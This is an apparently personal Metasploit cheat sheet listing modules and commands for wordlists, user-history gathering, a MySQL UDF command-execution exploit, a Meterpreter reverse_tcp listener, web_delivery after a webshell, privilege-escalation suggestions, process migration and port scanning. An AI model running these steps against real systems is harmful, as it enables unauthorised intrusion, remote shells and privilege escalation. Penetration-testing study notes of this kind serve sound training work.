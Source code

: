 ![[Pasted image 20221124173058.png]]


```bash

service postgresql start && msfconsole -q


```

# Wordlists

```bash
/usr/share/metasploit-framework/data/wordlists/

# common
common_users.txt
unix_passwords.txt 


```

# Post exploit

```ruby
post/linux/gather/enum_users_history # find users history file
```





# Databases
```ruby
use exploit/multi/mysql/mysql_udf_payload # It's a MySQL UDF exploit which will create a User-Defined Function (UDF) and allow us to run arbitrary commands using it.
```


# Meterpreter listener 
```ruby

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp


```


# after webshell get metepreter shell

```
exploit/multi/script/web_delivery
```


# sessions


```ruby
sessions -i # list or attach
sessions -k # kill
```

# Priv esc

```ruby
post/multi/recon/local_exploit_suggester

```

# Migrate to processes windows

```

ps

migrate NUMBER

```

# port scan 
```bash
# We can use nmap on metasploit by typing nmap and run the command normaly if we used the last command
# Or we can use Metasploit port scan module 

use auxiliary/scanner/portscan/tcp 
set PORTS 80, 8080, 445, 21, 22 # Setting ports to scan
set RHOSTS 192.69.228.3-10 # Setting ip range for port scan
exploit
```
# global variables 

```ruby
setg

```


